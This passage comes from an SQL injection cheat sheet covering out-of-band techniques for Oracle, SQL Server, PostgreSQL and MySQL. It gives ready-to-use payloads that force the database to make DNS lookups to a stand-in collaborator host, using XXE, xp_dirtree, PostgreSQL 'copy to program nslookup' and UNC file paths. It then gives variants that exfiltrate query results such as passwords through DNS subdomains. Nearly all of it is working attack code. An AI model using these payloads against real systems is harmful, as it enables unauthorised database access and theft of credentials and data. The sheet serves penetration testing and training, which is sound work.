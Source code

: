* **MySQL**:
```
SELECT IF(YOUR-CONDITION-HERE,SLEEP(10),'a')
```

## DNS Lookup

We can cause the database to perform a DNS lookup to an external domain.

* **Oracle**: The following technique leverages an XXE vulnerability to trigger a DNS lookup. THe vulnerability has been patched but there are many unpatched Oracle installations in existence.
```
SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual
```

The following payload works on fully patched oracle database but need elevated privileges.

```
SELECT UTL_INADDR.get_host_address('BURP-COLLABORATOR-SUBDOMAIN') 
```

* **Microsoft**:
```
exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a' 
```

* **PostgreSQL**:
```
copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN' 
```

* **MySQL**: Only on Windows.
```
LOAD_FILE('\\\\BURP-COLLABORATOR-SUBDOMAIN\\a')
SELECT  INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'
```

## DNS Lookup with data exfiltration

We can also use DNS lookups to exfiltrate data such as passwords or other fields of a table.

* **Oracle**:
```
SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual
```

* **Microsoft**:
```
declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.BURP-COLLABORATOR-SUBDOMAIN/a"')
```

* **PostgreSQL**:
```
create OR replace function f() returns void as $$
declare c text;
declare p text;
begin
SELECT into p (SELECT YOUR-QUERY-HERE);
c := 'copy (SELECT '''') to program ''nslookup '||p||'.BURP-COLLABORATOR-SUBDOMAIN''';
execute c;
END;
$$ language plpgsql security definer;
SELECT f(); 
```

